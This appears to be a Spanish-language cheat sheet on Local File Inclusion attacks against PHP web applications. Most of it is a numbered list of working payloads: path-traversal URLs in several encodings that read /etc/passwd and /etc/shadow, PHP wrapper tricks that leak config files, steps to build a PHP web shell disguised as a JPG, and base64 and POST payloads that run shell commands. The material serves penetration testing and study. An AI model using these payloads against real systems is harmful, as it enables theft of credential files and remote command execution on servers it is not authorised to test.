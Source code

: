 ## Local File Inclusion (LFI)

La inclusión de archivos locales es una técnica de ataque en la que los atacantes engañan a una aplicación web para que ejecute o exponga archivos en un servidor web. 


Se puede encontrar en cualquier extremo que incluya un archivo de un servidor web. Por ejemplo, /index.php?page=index.html

## Explotando

1 - Carga útil básica

    http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
    
2 - Codificación de URL

    http://example.com/index.php?page=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd

3 - Codificación doble 

    http://example.com/index.php?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
    
4 - Codificación UTF-8

    http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
    
5 - Uso de null byte (%00)

    http://example.com/index.php?page=../../../etc/passwd%00
    
6 - Desde una carpeta existente

    http://example.com/index.php?page=scripts/../../../../../etc/passwd
    
7 - Usando PHP Wrappers: filter

    http://example.com/index.php?page=php://filter/read=string.rot13/resource=config.php
    http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
    
8 - Usando PHP Wrappers: zlib

    http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/shadow
    
9 - Usando PHP Wrappers: zip

    echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;
    zip payload.zip payload.php;
    mv payload.zip shell.jpg;
    rm payload.php

    http://example.com/index.php?page=zip://shell.jpg%23payload.php
    
10 - Usando PHP Wrappers: data

    http://example.com/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+
    
11 - Usando PHP Wrappers: expect

    http://example.com/index.php?page=expect://ls
    
12 - Usando PHP Wrappers: input

    POST /index.php?page=php://input&cmd=ls HTTP/1.1
    Host: example.com
    ...

    <?php echo shell_exec($_GET['cmd']); ?>
    
13 - Algunos Bypassing

    http://example.com/index.php?page=....//....//etc/passwd
    http://example.com/index.php?page=..///////..////..//////etc/passwd
    http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
    http://example.com/index.php?page=/.%2e/.%2e/.%2e/.%2e/etc/passwd
    http://example.com/index.php?page=/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd
